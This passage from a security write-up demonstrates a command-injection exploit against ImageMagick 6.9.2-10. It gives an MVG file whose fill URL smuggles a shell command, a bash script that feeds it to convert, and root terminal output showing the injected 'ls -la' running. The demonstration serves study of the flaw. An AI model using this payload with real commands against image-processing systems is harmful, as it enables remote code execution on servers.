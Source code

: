 Using same payload as used earlier in this write up. Take note of the embedded `ls -la` shell command appended with an `|` (the logical OR pipe operator).

**exploit.mvg**:

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'
    pop graphic-context

Note that an `mvg` file is used for Magick Vector Graphics.

> The Magick Vector Graphics (MVG) specification is a modularized language for describing two-dimensional vector and mixed vector/raster graphics in ImageMagick. You can use the language to draw from the command line, from an MVG file, from an SVG -- Scalable Vector Graphics file or from one of the ImageMagick program interfaces.

The following example MVG command will render an arc:

    convert -size 100x60 canvas:skyblue -fill white -stroke black \
      -draw "path 'M 30,40  A 30,20  20  0,0 70,20 A 30,20  20  1,0 30,40 Z '" \
      arc.png

Given this is a full blown DSL (domain specific language), the above exploit takes advantage of the `fill` command it supports, giving it an `https` based URL to work with.

    fill 'url(https://127.0.0.0/spl017.jpg"|ls "-la)'


**exploit.sh**:

    #! /usr/bin/env bash
    DIR="$( cd "$( dirname "${BASH_SOURCE[0]}" )" && pwd )"
    IDENTIFY=/root/Downloads/ImageMagick-6.9.2-10/utilities/identify
    CONVERT=/root/Downloads/ImageMagick-6.9.2-10/utilities/convert
    $CONVERT exploit.mvg exploit.png 

Attempting to `convert` (one of the most feature laden ImageMagick binaries) using the `6.9.2-10` build:

    root@kali:~/git/PoCs# ./exploit.sh 
    total 84
    drwxr-xr-x 3 root root  4096 Sep 28 15:43 .
    drwxr-xr-x 3 root root  4096 Sep 28 13:29 ..
    -rw-r--r-- 1 root root   112 Sep 28 15:43 exploit.mvg
    -rw-r--r-- 1 root root   111 Sep 28 15:41 exploit.png
    -rwxr-xr-x 1 root root   241 Sep 28 15:33 exploit.sh
    drwxr-xr-x 8 root root  4096 Sep 28 09:31 .git
    convert: unrecognized color `https://localhost/sp1017.jpg"|ls "-...
    convert: unable to open image `/tmp/magick-22459XyJrh1pYEj2M': N...
    convert: unable to open file `/tmp/magick-22459XyJrh1pYEj2M': No...
    convert: non-conforming drawing primitive definition `fill' @ er...


Can see the exploit in action, with the `ls -la` listing in action, just prior to the failed conversion output.


